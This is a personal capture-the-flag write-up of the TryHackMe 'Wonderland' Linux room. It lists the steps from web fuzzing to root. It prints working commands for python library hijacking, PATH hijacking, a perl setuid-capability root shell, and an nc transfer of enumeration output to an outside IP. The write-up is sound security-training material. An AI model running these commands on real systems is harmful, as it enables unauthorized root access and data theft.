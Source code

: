 # 41. Wonderland 🧭
Names | Details
--------|-----
Source | tryhackme
Level | medium
Os | linux

**Notes :**
#privilegeEscalation/hard 
#other/GAtactics 
perl

## Gaining Access 😉
- ffuf FUZZing with common.txt
- as hint suggests, followed /r/a/b/b/i/t. got ssh username and password in source code
- just subdirectory fuzzing things



## Maintaining Access 🥷
- run linpeas
- downloaded output with nc [[#Important commands 🔥]]1
- python file found which imports ramdom
- user can run python3.6 as rabbit
- created a ramdom.py in home dir which contains [[#Important commands 🔥]]2 this code
- after searching for teaparty got sourcecode
- date is called without absolute path
- path variable escalation to hatter
- `getcap -r / 2> /dev/null` for searching capabilities
- cp /usr/bin/perl5.26.1 .
- from gtfo, I got perl capabilities command
- after trying command I got permission error
- executed `su hatter` entered password which I got earlier
- then executed [[#Important commands 🔥]]5

## Important commands 🔥
1. nc share: from reciever
	```
	nc -lvp 4444 > linpeas
	```
	sender
	```
	nc 10.9.229.254 4444 -w 3 < linpeas
	```
2. ramdom.py
	```python
	import os os.system("/bin/bash")
	```
3. running other user
	```
	sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
	```
4. perl capabilities
	```perl
	/usr/bin/perl5.26.1 -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
	```
5. perl privesc
	```perl
	/usr/bin/perl5.26.1 -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
	```
## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- [binaryninja](https://binary.ninja/) can be used to reverse engineer
- check capabilities for privilege escalation
- search google for reverse engineering
- if command doesn't execute even if you have permission, try su user

--------------------------------
**By Nibras Muhammed** 🤓🖥️